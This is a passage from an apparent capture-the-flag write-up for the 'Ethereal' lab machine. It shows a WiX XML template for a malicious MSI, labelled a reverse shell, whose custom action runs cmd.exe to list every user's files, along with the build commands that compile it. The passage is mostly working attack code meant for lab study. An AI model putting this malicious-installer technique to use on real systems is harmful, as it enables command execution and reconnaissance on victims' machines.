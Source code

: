 ```
01/07/2018  21:56    <DIR>          rupal
               0 File(s)              0 bytes                                                                        
               9 Dir(s)  15,386,480,640 bytes free
                                                   
```


Taking it one step further,  we can safely assume that we are running as at least the `rupal` user. So now we want to see what access we have to all the users files and if we can see any flags or other interesting files

So we create another thoseguysdirusers.xml file:
```
<?xml version='1.0' encoding='windows-1252'?> 
<Wix xmlns='http://schemas.microsoft.com/wix/2006/wi'> 
<Product Name='Foobar 1.0' Manufacturer='Acme Ltd.' Id='CE26AD1E-00D5-4E03-8CBE-6DA5C23AA833' UpgradeCode='CE26AD1E-00D5-4E03-8CBE-6DA5C23AA833' Language='1033' Codepage='1252' Version='1.0.0'> 
<Package Id='*' Keywords='Installer' Description="Thoseguys Rev Shell" Comments='Foobar is a registered trademark of Acme Ltd.' Manufacturer='Acme Ltd.' InstallerVersion='100' Languages='1033' Compressed='yes' SummaryCodepage='1252' /> 
<Media Id='1' Cabinet='Sample.cab' EmbedCab='yes' /> 
<Directory Id='TARGETDIR' Name='SourceDir'> 
<Directory Id='ProgramFilesFolder' Name='PFiles'> 
<Directory Id='INSTALLDIR' Name='ThoseGuys 1.0'> 
<Component Id="ApplicationFiles" Guid="CE26AD1E-00D5-4E03-8CBE-6DA5C23AA834"> 
</Component> 
</Directory> 
</Directory> 
</Directory> 
<Feature Id="DefaultFeature" Level="1"> 
<ComponentRef Id="ApplicationFiles"/> 
</Feature> 
<CustomAction Id="SystemShell" Directory="TARGETDIR" ExeCommand="cmd.exe /c dir /s /b C:\users > C:\users\public\desktop\shortcuts\msidirresults.txt" Execute="deferred" Impersonate="yes" Return="ignore"/> 
<CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check"> invalid vbs to fail install</CustomAction> 
<InstallExecuteSequence> 
<Custom Action="SystemShell" After="InstallInitialize"></Custom> 
<Custom Action="FailInstall" Before="InstallFiles"></Custom> 
</InstallExecuteSequence> 
</Product> 
</Wix>
```

Follow all the steps again, use Candle.exe and Light.exe to generate the MSI:
```
C:\Tools\wix311>candle.exe -out C:\htb\Ethereal\thoseguysdirusers.wixobj C:\htb\Ethereal\thoseguysdirusers.xml
Windows Installer XML Toolset Compiler version 3.11.1.2318
Copyright (c) .NET Foundation and contributors. All rights reserved.

thoseguysdirusers.xml

C:\Tools\wix311>light.exe -o C:\htb\Ethereal\thoseguysdirusers.msi C:\htb\Ethereal\thoseguysdirusers.wixobj
Windows Installer XML Toolset Linker version 3.11.1.2318
Copyright (c) .NET Foundation and contributors. All rights reserved.
```
